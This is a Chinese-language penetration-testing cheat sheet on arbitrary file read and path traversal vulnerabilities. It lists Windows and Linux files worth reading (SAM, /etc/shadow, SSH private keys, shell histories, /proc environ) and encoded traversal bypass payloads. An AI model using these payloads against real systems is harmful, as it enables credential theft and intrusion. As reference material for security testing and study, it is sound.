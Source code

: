 # Fileread

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [渗透测试-任意文件读取/下载漏洞](https://mp.weixin.qq.com/s/fpYKgybCQdSd5_AafNvt4w)

**相关案例**
- [京东商城两处任意目录遍历下载漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0214222)
- [2 Path Traversal Cases](https://jlajara.gitlab.io/web/2020/03/29/Path_Traversal.html)
- [电信某分站配置不当导致敏感文件泄露](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-095088)
- [一个任意文件读取漏洞记录](https://toutiao.io/posts/423535/app_preview)
- [南方周末邮件服务器任意文件读取漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-045426)
- [一次文件读取漏洞的“危害升级”历程](https://www.freebuf.com/vuls/257629.html)
- [任意文件读取拖源码](https://mp.weixin.qq.com/s/ipcg_abnzGMLySrfnKbR0Q)

---

## 利用思路

### windows

**常规配置文件**
```
C:\windows\win.ini                          //可以用来判断是否为windows系统
C:\boot.ini                                 //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml    //IIS 配置文件
C:\Windows\repair\sam                       //存储系统初次安装的密码
C:\Program Files\mysql\my.ini               //Mysql 配置
C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root
C:\Windows\php.ini                          //php 配置信息
C:\Windows\my.ini                           //Mysql 配置信息
```

**Windows Search索引文件(需要管理员权限)**

这个文件一般特别大,不是很推荐这种利用方法😅
```
%ProgramData%\Microsoft\Search\Data\Applications\Windows\Windows.edb
```

**日志文件**

%systemroot%\System32\winevt\Logs 目录下
```
Application.evtx
ConnectionInfo.evtx
Error.evtx
HardwareEvents.evtx
Internet Explorer.evtx
Key Management Service.evtx
Media Center.evtx
Microsoft-Windows-API-Tracing%4Operational.evtx
Microsoft-Windows-AppID%4Operational.evtx
Microsoft-Windows-Application Server-Applications%4Admin.evtx
Microsoft-Windows-Application Server-Applications%4Operational.evtx
Microsoft-Windows-Application-Experience%4Problem-Steps-Recorder.evtx
Microsoft-Windows-Application-Experience%4Program-Compatibility-Assistant.evtx
Microsoft-Windows-Application-Experience%4Program-Compatibility-Troubleshooter.evtx
Microsoft-Windows-Application-Experience%4Program-Inventory.evtx
Microsoft-Windows-Application-Experience%4Program-Telemetry.evtx
```

**命令行历史记录**
```
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### linux

**系统信息**
```
/etc/passwd
/etc/shadow
/etc/hosts
```

**历史记录**
```
/var/lib/mlocate/mlocate.db     # locate命令的索引数据库文件
/root/.bash_history             # bash 历史记录
/root/.mysql_history            # mysql 的 bash 历史记录
/root/.wget-hsts
```

**配置文件**
```
/opt/nginx/conf/nginx.conf      # nginx 的配置文件
/var/www/html/index.html
/etc/redis.conf
/etc/my.cnf
/etc/httpd/conf/httpd.conf      # httpd 的配置文件
```

**软硬件信息/进程信息**
```
/proc/self/fd/fd[0-9]*(文件标识符)
/proc/mounts
/porc/config.gz
/proc/sched_debug   # 提供 cpu 上正在运行的进程信息，可以获得进程的 pid 号，可以配合后面需要 pid的利用
/proc/mounts        # 挂载的文件系统列表
/proc/net/arp       # arp 表，可以获得内网其他机器的地址
/proc/net/route     # 路由表信息
/proc/net/tcp
/proc/net/udp       # 活动连接的信息
/proc/net/fib_trie  # 路由缓存
/proc/version       # 内核版本
/proc/[PID]/cmdline # 可能包含有用的路径信息
/proc/[PID]/environ # 程序运行的环境变量信息，可以用来包含 getshell
/proc/[PID]/cwd     # 当前进程的工作目录
/proc/[PID]/fd/[#]  # 访问檔案描述符
```

**ssh**
```
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/authorized_keys
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/ssh/sshd_config
/var/log/secure
```

**网络配置**
```
/etc/sysconfig/network-scripts/ifcfg-eth0
/etc/syscomfig/network-scripts/ifcfg-eth1
```

**locate.db**

Linux locate 命令用于查找符合条件的文档。一般输入 `locate xxx` 即可查找指定文件

locate 其会去保存文档和目录名称到数据库内(这个数据库中含有本地所有文件信息。Linux 系统自动创建这个数据库，并且每天自动更新一次)，然后查找合乎范本样式条件的文档或目录。一般这个数据库的位置在:
```
/var/lib/mlocate/mlocate.db
```

寻找 mlocate.db 中所有带有 properties 的路径
```bash
locate mlocate.db properties
```

---

## 绕过技巧

### 双写

- `../../../etc/passwd`
- `..././.././etc/passwd`

### 编码

- `../../../etc/passwd`
- `..%2F..%2F..%2Fetc%2Fpasswd`
- `..%252F..%252F..%252Fetc%252Fpasswd`
